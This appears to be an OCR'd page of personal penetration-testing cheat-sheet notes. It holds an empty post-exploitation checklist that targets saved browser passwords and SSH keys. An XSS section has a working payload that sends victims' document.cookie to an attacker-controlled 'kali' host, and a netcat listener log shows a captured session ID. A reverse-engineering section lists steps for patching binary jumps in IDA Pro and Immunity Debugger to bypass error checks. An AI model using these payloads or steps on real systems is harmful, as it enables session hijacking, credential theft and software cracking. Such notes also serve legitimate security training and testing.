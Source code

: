 
### Mail

### Browser

- Browser start-page:
- Browser-history:
- Saved passwords:

### Databases

### SSH-keys

------------------------------------------------------------------------




----------------------------- Notes-------------------------------------




------------------------------------------------------------------------

## XSS


```
<script>alert("XSS")</script>

<script>
new Image().src="http://kali/bogus.php?output="+document.cookie;
</script>

root@kali:~# nc -nlvp 80
listening on [any] 80 ...
connect to [kali] from (UNKNOWN) [target] 49455
GET /bogus.php?output=PHPSESSID=CREDS HTTP/1.1
Accept: */*
Referer: http://127.0.0.1/index.php
Accept-Language: en-US
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1; Trident/4.0; SLCC2;
.NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729)
Accept-Encoding: gzip, deflate
Host: 192.168.10.5
Connection: Keep-Alive
```
## Reverse

```
do all in vm
1) try to grab strings for low hanging fruit
2) sublime text
3) IDA Pro in windows is easiest (use ctrl+x to find references/calls to function)
4) N is the hotkey to rename a function in IDA Pro, semicolon is hotkey for comment
5) In immunity debugger view module (select app)
6) searh for all refeed text strings (double click on an error message & success (set breakpoints)
7) Dobule click in cpu for breakpoint
8) inspect jumps
9) modify jumps to not take errors
```
